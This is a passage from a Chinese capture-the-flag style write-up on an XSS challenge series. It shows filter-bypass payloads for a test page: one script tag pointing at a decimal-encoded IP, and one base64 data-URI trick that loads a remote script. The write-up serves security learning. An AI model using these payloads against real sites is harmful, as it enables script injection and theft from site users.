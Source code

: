 ## 方法一

回顾第三式的两个方法，由于新增对 `%` 的过滤，显然第一个方法已经不奏效了。

但我们惊奇地发现第二个方法貌似还能用。

因为是十进制编码，URL 中只含有数字，所以按理说能够成功绕过。

果不其然，成功弹窗：  
![在这里插入图片描述](https://img-
blog.csdnimg.cn/f829a6f46f5c48669b10647700a304a5.png?x-oss-
process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQzMzMxNDg4,size_16,color_FFFFFF,t_70)  
Payload：

    
    
    http://xcao.vip/test/xss5.php?data="><script src="http://2130706433"></script>
    

这个方法也是题目作者采用的方法。

## 方法二

在第四式中，我们使用了一个 `location['replace']` 搭配 `base64` 编码的方法，发现这个方法由于没有使用
`%`，同样也适用于这道题的场景。

索性直接照搬：

    
    
    http://xcao.vip/test/xss5.php?data="><iframe></iframe><script>frames[0]['location']['replace']`data:text/html;base64,PHNjcmlwdCBzcmM9Imh0dHA6Ly94Y2FvLnZpcC94c3MvYWxlcnQuanMiPjwvc2NyaXB0Pg`</script>
    

成功弹窗：  
![在这里插入图片描述](https://img-
blog.csdnimg.cn/e631c98637c1482d9ac5dc6401118381.png?x-oss-
process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQzMzMxNDg4,size_16,color_FFFFFF,t_70)  
直接套模板，这道题就做得很舒服😛😛😛

# 独孤九剑-第六式

## 题目

![在这里插入图片描述](https://img-
blog.csdnimg.cn/f658e57070554d9b8687b1874cd57471.png?x-oss-
process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQzMzMxNDg4,size_16,color_FFFFFF,t_70)

> **在上一题基础上，增加对等号`=` 的过滤**

## 方法一
